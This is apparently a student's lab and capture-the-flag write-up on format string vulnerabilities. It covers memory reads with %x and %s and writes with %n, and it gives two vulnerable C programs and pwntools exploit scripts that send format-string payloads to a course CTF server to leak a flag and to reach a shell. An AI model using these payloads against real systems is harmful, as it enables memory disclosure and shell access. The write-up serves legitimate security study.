 # Task from week 7

## Task 1

- After compiling and running all the commands as suggested in this class pdf tutorial;
![image](prints/print17.jpg)


- After creating the server, we sent the 'hello' message and interrupted the terminal, which the result was obtained as follows:
![image](prints/print16.jpeg)


- We crashed the program by providing a %s as an input to the program
![image](prints/print18.jpg)


## Task 2
### Task A

- The objective was to print the adress where we wrote a string with 4 similar letters ("llll" in our implementation). Then we wrote %x. untill we got the adress with the previous information. With this we can find exactly the buffer size.

![image](prints/print19.jpg)


### Task B
- The objective in this task was to print the heap data. We made some modifications to the python file present in the server attack folder.
![image](prints/print20.jpg)




- After this we ran the new python file and gave the following input:
![image](prints/print21.jpg)

  
- The obtained output was as follows:
![image](prints/print22.jpg)


- In conclusion, we were able to obtain the secret message and print it.

# Task 3
## Task A

- By providing the input shown under, we gave as input the value of the target value and then 63 %x and one %n. After this, we were able to change the target value.
![image](prints/print23.jpg)

## Task B
- We provided as input the address of the target variable once again, but this time a bit different, because we had to give a number of exact bytes (19980):
- First we got to the 63 position to be able to modify the 64. As each position has 8 characters (63*8=504). The pretended value (0x5000=20480). If we subtract 20480-504 we get 19976, to which we had 4 to get to the 19980.
![image](prints/print24.jpg)
![image](prints/print25.jpg)
  


# CTF 7

## Challenge 1

---

We inspected the main.c file and found the following code:

<details><summary>main.c</summary>
<p>

    #include <stdio.h>
    #include <stdlib.h>
    
    #define FLAG_BUFFER_SIZE 40
    
    char flag[FLAG_BUFFER_SIZE];
    
    void load_flag(){
    FILE *fd = fopen("flag.txt","r");
    
        if(fd != NULL) {
            fgets(flag, FLAG_BUFFER_SIZE, fd);
        }
    }
    
    int main() {
    
        load_flag();
       
        char buffer[32];
    
        printf("Try to unlock the flag.\n");
        printf("Show me what you got:");
        fflush(stdout);
        scanf("%32s", &buffer);
        printf("You gave me this: ");
        printf(buffer);
    
        if(0) {
            printf("I like what you got!\n%s\n", flag);
        } else {
            printf("\nDisqualified!\n");
        }
        fflush(stdout);
        
        
        return 0;
    }

</p>
</details>

#### Program Analysis

- Where? -> Line 27, print buffer, enables for a print without formatting string
- What? -> We can use this to access contents of the memory
- How? -> By utilizing a formatting string in the print itself, the contents of the memory can be printed, including the value of flag


First, we ran gdb (debugger) on the program in order to find the address of the flag buffer.
<br/>

Because there is no PIE (address randomization), the addresses are maintained through executions
<br/>

![image](prints/img_3.png)

Then, we inserted a string where we passed first the address of flag and then a format string.
<br/>

This results of the address being written in memory and the format string, fetching the next value in memory, printing the contents pointed to by this address, the flag.

<details><summary>exploit.py</summary>
<p>

    from pwn import *

    LOCAL = False
    
    if LOCAL:
        p = process("./program")
    
        pause()
    
    else:
        p = remote("ctf-sp.dcc.fc.up.pt", 4004)

    p.recvuntil(b"got:")
    p.sendline(b"\x60\xc0\x04\x08.%s.%p.%p.%p.%p.")
    p.interactive()

</p>
</details>

And we ran it:

![image](prints/img_4.png)

And we got the flag:

#### flag{0dc09c674240331231db8116376b2a99}


## Challenge 2

---


We inspected the main.c file and found the following code:

<details><summary>main.c</summary>
<p>

    #include <stdio.h>
    #include <stdlib.h>
    
    int key = 0;
    
    int main() {
    
        char buffer[32];
    
        printf("There is nothing to see here...");
        fflush(stdout);
        scanf("%32s", &buffer);
        printf("You gave me this:");
        printf(buffer);
        fflush(stdout);
    
        if(key == 0xbeef) {
            printf("Backdoor activated\n");
            fflush(stdout);
            system("/bin/bash");    
        }
            
        return 0;
    }

</p>
</details>

#### Program Analysis
- What changed? The program is different, as the flag is no longer in a buffer. The vulnerability is still present but the flag cannot be printed directly. There is access to the bash if the key value is changed
- Still vulnerable but in a different way
- We can abuse the format string vulnerability present in line 14 by utilizing it to alter the value of key, giving us access to the bash

First we used gdb (debugger) to find key's address in the stack

![image](prints/img_5.png)

Then, we used %n string formatting to insert into a variable the number of bytes printed and forced this number to be 0xbeef.
<br/>

The variable to which we saved this value was the one pointed to by the address we got from gdb (key)

![image](prints/img_6.png)

Finally, we got access to a remote bash, where we were able to print the contents of flag.txt and catch the flag

![image](prints/img_7.png)


Here's the python script:

<details><summary>exploit.py</summary>
<p>
    from pwn import *

    LOCAL = False
    
    if LOCAL:
        p = process("./program")
    
        pause()
    
    else:
        p = remote("ctf-sp.dcc.fc.up.pt", 4005)
    
    p.recvuntil(b"...")
    p.sendline(b"@@@@\x34\xC0\x04\x08%.48871x%n")
    p.interactive()

</p>
</details>

And we got the flag:

#### flag{38a81e4a69be25bcadc72b7e9547bd67}


